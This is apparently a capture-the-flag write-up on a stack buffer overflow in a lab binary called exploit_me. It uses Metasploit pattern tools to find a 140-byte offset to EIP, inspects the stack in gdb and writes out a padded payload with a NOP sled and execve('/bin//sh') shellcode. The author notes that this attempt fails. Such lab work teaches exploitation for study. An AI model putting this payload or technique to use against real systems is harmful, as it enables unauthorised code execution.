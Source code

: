 Our goal is to enter malicious code into the EIP register.

We try to make the program crash with a random string of 200 characters:
```shell
┌──(fab㉿kali)-[~]
└─$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

┌──(fab㉿kali)-[~]
└─$
```

![[Pasted image 20240425141610.png]]

We calculate the offset towards EIP, by taking the string contained in EIP ("6Ae7"):
```shell
┌──(fab㉿kali)-[~]
└─$ msf-pattern_offset -q 6Ae7
[*] Exact match at offset 140

┌──(fab㉿kali)-[~]
└─$
```
We need to pad our input with 140 characters before adding our shellcode that will be written on the memory (for understanding how to create a shellcode, refer to [this link](https://www.arsouyes.org/blog/2019/54_Shellcode/index.en.html), and [here](http://shell-storm.org/shellcode/index.html) is a large corpus of shellcodes).

However, we need to find the address of the ESP where a pointer to the previous instruction is stored:
```shell
gdb-peda$ run `perl -e 'print "A"x140'`
<SNIP>

gdb-peda$ info frame
Stack level 0, frame at 0xffffcecc:
 eip = 0xf7da3701; saved eip = 0xffffcf80
 called by frame at 0x41414149
 Arglist at 0x41414141, args:
 Locals at 0x41414141, Previous frame's sp is 0xffffcecc
 Saved registers:
  ebx at 0xffffcec0, esi at 0xffffcec4, eip at 0xffffcec8
gdb-peda$ print $esp
$1 = (void *) 0xffffcec0
gdb-peda$ q

┌──(fab㉿kali)-[~/rainfall/b2r]
└─$ ./exploit_me `perl -e 'print "A"x140 . "\xc0\xce\xff\xff" . "\x90"x30 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
```
It doesn't work, but it doesn't matter, because:
1. the address contained in ESP will be different in the remote session;
2. the shellcode has to be adapted to the system architecture of the executable file.
